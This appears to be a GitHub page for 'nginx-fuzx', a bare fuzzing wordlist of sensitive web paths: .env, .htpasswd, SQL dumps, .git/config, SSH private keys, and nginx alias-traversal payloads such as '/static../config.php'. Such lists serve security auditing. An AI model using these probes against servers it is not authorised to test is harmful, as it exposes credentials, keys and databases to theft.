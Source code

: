 # nginx-fuzx

/config.php
/config.json
/config.yaml
/.env
/.htpasswd
/nginx.conf
/error.log
/access.log
/logs/error.log
/logs/access.log
/database.sql
/db.sql
/dump.sql
/backup.sql
/mysql.sql
/index.php~
/index.php.bak
/.git/config
/.svn/entries
/.DS_Store
/.idea/workspace.xml
/.ssh/id_rsa
/.ssh/id_rsa.pub
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/admin/
/admin/login.php
/internal/
/private/
/backup/
/staging/
/test/
/hidden/
/dev/
/static../config.php
/static../.env
/static../nginx.conf
/static../logs/error.log
/static../database.sql
/internal../config.php
/internal../logs/error.log
/internal../backup.zip
/uploads../config.json
/uploads../debug.log
/admin../config.php
/admin../.env
